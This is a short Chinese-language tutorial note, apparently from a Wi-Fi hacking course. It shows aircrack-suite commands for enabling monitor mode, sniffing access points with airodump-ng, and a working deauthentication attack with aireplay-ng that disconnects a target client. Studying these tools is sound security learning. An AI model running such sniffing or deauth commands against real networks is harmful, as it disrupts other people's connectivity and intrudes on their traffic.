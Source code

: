 （非必需）网络管理会关掉

```
# airmon-ng check kill (chek any process can interfer with monitor mode and kill it)
```

切换到monitor模式

```
# iwconfig wlan0 mode monitor
```

启动

```
# ifconfig wlan0 up
```

##### 方法2

```
# ifconfig wlan0 down
# airmon-ng check kill
```

仍然使用airmon-ng

```
airmon-ng start waln0 （在waln0接口上打开分析模式）
```

会开启一个名为waln0mon模式的监听接口，之前waln0的interface消失

## Network Hacking - Pre Connection Attacks


### Packet Sniffing Basics Using Airodump-ng

#### airodump-ng

检测有哪些无限网络
```
airodump-ng wlan0 
```

监测特定AP
```
airodump-ng --bssid 11:22:33:44:55  --channel 2 --write test wlan0
```

抓到的包记录在 testXX.cap 文件中

#### Deauthentication Attack (Disconnectiong any device)

```
aireplay-ng --deauth 100000000 -a 11:22:33:44:55 -c 11:22:33:44:55  wlan0
```

极少情况下 该命令需要 airodump-ng 在监测该AP时才能运行

### WiFi Bands - 2.4Ghz & 5Ghz Frequencies
